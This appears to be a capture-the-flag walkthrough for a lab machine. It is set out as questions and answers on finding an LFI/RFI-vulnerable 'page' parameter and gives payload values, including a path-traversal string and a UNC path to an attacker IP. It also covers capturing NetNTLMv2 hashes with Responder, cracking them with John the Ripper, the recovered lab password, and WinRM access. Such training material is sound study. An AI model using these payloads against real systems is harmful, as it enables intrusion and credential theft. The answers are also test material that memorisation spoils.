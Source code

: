![](banner.png)

![](nmap.png)

![](dns.png)

When visiting the web service using the IP address, what is the domain that we are being redirected to?

```
unika.htb
```


Which scripting language is being used on the server to generate webpages?

```
php
```


![](param.png)

What is the name of the URL parameter which is used to load different language versions of the webpage?

```
page
```

![](lfi.png)

Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```
../../../../../../../../windows/system32/drivers/etc/hosts
```

Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```
//10.10.14.6/somefile
```


What does NTLM stand for?

```
New Technology Lan Manager
```

![](rfi.png)

Which flag do we use in the Responder utility to specify the network interface?

```
-I
```

![](admin-hash.png)

There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

```
John The Ripper
```

![](john.png)

What is the password for the administrator user?

```
badminton
```


We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

```
5985
```

![](remote-connect.png)
